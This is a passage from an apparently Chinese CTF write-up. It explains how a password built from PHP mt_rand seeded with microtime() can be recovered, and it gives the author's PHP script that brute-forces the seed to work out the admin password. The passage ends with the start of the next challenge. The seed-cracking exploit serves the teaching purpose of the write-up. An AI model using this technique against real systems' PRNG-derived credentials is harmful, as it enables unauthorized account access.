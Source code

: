 所以这里`microtime() * 1000000`是不超过7位数的，而且第一次随机数我们已经得到了，我们可以通过爆破随机数种子来得到随机数。

贴一个自己写的`php exp`

```php
<?php
// echo ((double) microtime() * 1000000)."\n";
// mt_srand((double) microtime() * 1000000);
// var_dump(mt_rand());
// echo substr(md5(mt_rand()),0,6);


// int(1409622410)
// bc700b

$seed = 0;
for($i = 0;$i < 1000000; $i++){
    mt_srand($i);
    $str = mt_rand();
    if($str === 1796651235){
        $seed = $i;
    }
}
echo $seed."\n";
mt_srand($seed);
mt_rand();
echo substr(md5(mt_rand()),0,6);
```

猜解得到密码登录就可以得到`flag`

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fyi1650iujj21kg16g7wh.jpg)

这里避免给大家竞争随机…就给了5个`amdin`，其实应该注册一个就对应给一个`admin`，但是感觉5个应该差不多了...



### Web2    男航理工大学选课系统

#### 题目描述

```
http://ctf.asuri.org:8003

小火汁，听说你想选课？

flag格式为NUAACTF{.*}
```

#### 信息收集

题目设置非常简单

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fyi1dv0agwj228017wn4v.jpg)
